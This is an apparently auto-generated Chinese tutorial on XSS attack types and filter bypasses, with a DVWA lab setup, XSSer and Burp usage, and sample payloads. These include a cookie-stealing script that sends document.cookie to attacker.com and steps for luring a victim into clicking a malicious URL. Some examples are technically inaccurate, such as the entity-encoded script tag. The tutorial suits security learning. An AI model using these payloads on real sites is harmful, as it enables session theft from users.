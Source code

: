 # XSS攻击类型与绕过技术的攻击技术

## 1. 技术原理解析

### 1.1 XSS攻击概述
跨站脚本攻击（XSS，Cross-Site Scripting）是一种常见的Web安全漏洞，攻击者通过在目标网站上注入恶意脚本，使得这些脚本在用户浏览器中执行，从而窃取用户信息、会话令牌或进行其他恶意操作。XSS攻击的核心在于浏览器对用户输入的不当处理，导致恶意脚本被解析和执行。

### 1.2 XSS攻击类型
XSS攻击主要分为三种类型：

1. **反射型XSS（Reflected XSS）**：攻击者将恶意脚本嵌入到URL中，当用户点击该URL时，服务器将恶意脚本反射回用户浏览器并执行。
2. **存储型XSS（Stored XSS）**：攻击者将恶意脚本存储到服务器端（如数据库），当其他用户访问包含该脚本的页面时，脚本被执行。
3. **DOM型XSS（DOM-based XSS）**：攻击者通过修改页面的DOM结构，使得恶意脚本在客户端执行，而不需要与服务器交互。

### 1.3 绕过技术
XSS绕过技术是指攻击者通过各种手段绕过Web应用程序的安全防护机制，成功注入并执行恶意脚本。常见的绕过技术包括：

1. **编码绕过**：通过使用不同的编码方式（如HTML实体编码、JavaScript编码）绕过输入过滤。
2. **事件处理器绕过**：利用HTML事件处理器（如`onclick`、`onload`）执行恶意脚本。
3. **标签属性绕过**：通过构造特殊的HTML标签或属性绕过过滤。
4. **上下文绕过**：根据不同的上下文环境（如HTML、JavaScript、CSS）构造不同的攻击载荷。

## 2. 变种和高级利用技巧

### 2.1 编码绕过
攻击者可以通过对恶意脚本进行编码，绕过输入过滤。例如，使用HTML实体编码将`<script>`标签编码为`&lt;script&gt;`，从而绕过简单的过滤机制。

**示例：**
```html
&lt;script&gt;alert('XSS')&lt;/script&gt;
```

### 2.2 事件处理器绕过
攻击者可以利用HTML事件处理器执行恶意脚本。例如，通过`onclick`事件触发恶意代码。

**示例：**
```html
<img src="x" onerror="alert('XSS')">
```

### 2.3 标签属性绕过
攻击者可以通过构造特殊的HTML标签或属性绕过过滤。例如，使用`<img>`标签的`src`属性执行JavaScript代码。

**示例：**
```html
<img src="javascript:alert('XSS')">
```

### 2.4 上下文绕过
攻击者可以根据不同的上下文环境构造不同的攻击载荷。例如，在JavaScript上下文中使用`eval`函数执行恶意代码。

**示例：**
```javascript
eval("alert('XSS')");
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了进行XSS攻击实验，可以搭建一个简单的Web应用程序环境。推荐使用以下工具：

1. **Docker**：用于快速搭建实验环境。
2. **Vulnerable Web Application**：如DVWA（Damn Vulnerable Web Application）或WebGoat。

**步骤：**
1. 安装Docker并启动。
2. 拉取DVWA镜像并运行：
   ```bash
   docker pull vulnerables/web-dvwa
   docker run -d -p 80:80 vulnerables/web-dvwa
   ```
3. 访问`http://localhost`，按照提示完成DVWA的安装和配置。

### 3.2 攻击步骤
以下是一个简单的反射型XSS攻击步骤：

1. **识别漏洞**：在DVWA的XSS（Reflected）页面中，输入`<script>alert('XSS')</script>`，观察是否弹出警告框。
2. **构造恶意URL**：将恶意脚本嵌入到URL中，如：
   ```
   http://localhost/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>
   ```
3. **发送恶意URL**：将构造好的URL发送给目标用户，诱使其点击。
4. **执行恶意脚本**：当用户点击该URL时，恶意脚本在用户浏览器中执行。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行XSS测试
Burp Suite是一款常用的Web安全测试工具，可以用于检测和利用XSS漏洞。

**步骤：**
1. 启动Burp Suite并配置浏览器代理。
2. 浏览目标网站，捕获HTTP请求。
3. 在Burp Suite的Repeater模块中，修改请求参数，插入恶意脚本。
4. 发送请求，观察响应中是否执行了恶意脚本。

### 4.2 使用XSSer自动化工具
XSSer是一款自动化XSS检测工具，可以快速扫描和利用XSS漏洞。

**安装：**
```bash
git clone https://github.com/epsylon/xsser.git
cd xsser
python xsser.py
```

**使用：**
```bash
python xsser.py -u "http://localhost/vulnerabilities/xss_r/?name=test" --Fuzz
```

### 4.3 编写自定义XSS Payload
根据不同的上下文环境，可以编写自定义的XSS Payload。

**示例：**
```html
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

## 结论
XSS攻击是一种常见且危险的Web安全漏洞，攻击者可以通过多种手段绕过安全防护机制，成功注入并执行恶意脚本。通过深入理解XSS攻击的原理和绕过技术，安全研究人员可以更好地防御和检测此类漏洞。同时，通过搭建实验环境和使用自动化工具，可以有效地进行XSS攻击的测试和验证。

---

*文档生成时间: 2025-03-11 12:49:27*
